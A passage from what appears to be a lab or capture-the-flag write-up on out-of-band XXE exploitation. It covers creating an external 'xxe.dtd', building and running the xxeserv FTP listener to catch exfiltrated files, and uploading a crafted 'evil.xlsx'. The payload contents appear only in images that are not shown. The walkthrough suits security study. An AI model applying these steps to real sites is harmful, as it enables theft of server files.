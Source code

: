 This means that he is trying to get the `xxe.dtd` file but there isn’t, now its time to create that file

Create a file named `xxe.dtd` with this content but with your IP

![Untitled](images/Untitled%2044.png)

Now we need to make a ftp server

![Untitled](images/Untitled%2045.png)

Let’s download the xxeserv, use this command `git clone https://github.com/staaldraad/xxeserv.git` now use `cd` inside the `xxeserv` and do `go mod init xxeftp.go`

![Untitled](images/Untitled%2046.png)

Now we can do `go build`

![Untitled](images/Untitled%2047.png)

Run the FTP server

`./xxeftp.go -o files.log -p 2121 -w -wd public -wp 8000`

![Untitled](images/Untitled%2048.png)

Now that we have all the things ready let’s exploit it

Go the website and upload the `evil.xlsx`
